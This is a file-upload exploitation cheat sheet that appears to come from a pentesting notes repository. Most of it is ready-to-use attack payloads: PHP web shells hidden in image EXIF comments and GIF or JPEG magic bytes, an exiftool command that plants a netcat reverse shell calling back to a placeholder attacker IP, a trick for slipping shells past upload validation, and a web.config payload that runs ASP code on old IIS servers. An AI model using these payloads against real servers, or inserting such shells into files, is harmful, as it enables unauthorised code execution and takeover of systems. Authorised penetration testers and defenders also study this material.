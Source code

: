 # File Upload

## RCE through image metadata

```bash
# SIMPLE RCE
exiftool -Comment='<?php system($_GET['cmd']); ?>' cat.jpg

# REVERSE SHELL
exiftool -Comment='<?php system("nc <YourIP> <YourPort> -e /bin/bash"); ?>' filename.png
```
When upload remember the `Content-type: application/x-php`.

## GIF
Create a file with the GIF magic bytes.

```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

## Magic Shell

Merge php code with valid upload file header.

File `shell.php`:

```php
<?php echo "We have RCE\n"; system($_REQUEST['cmd']); ?>
```

Merge the magic bytes of a image to `shell.php` to bypass validation:

```php
$ head -c 20 image.jpg > magic-bytes
$ cat magic-bytes shell.php > magical-shell.php.jpg
```

Usually the file needs to end in *.php* to have code execution. However, sometimes the `.htaccess` is misconfigured and allows *.php.jpg* to execute code as well.

[Why magical-shell.php.jpg can execute code?](https://youtu.be/bLIcew9Iot8?t=2290)

## Web.config

For old IIS web servers (7.5). You can put ASPX code on the bottom of a `web.config` file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

See Ippsec [Bounty](https://www.youtube.com/watch?v=7ur4om1K98Y) video.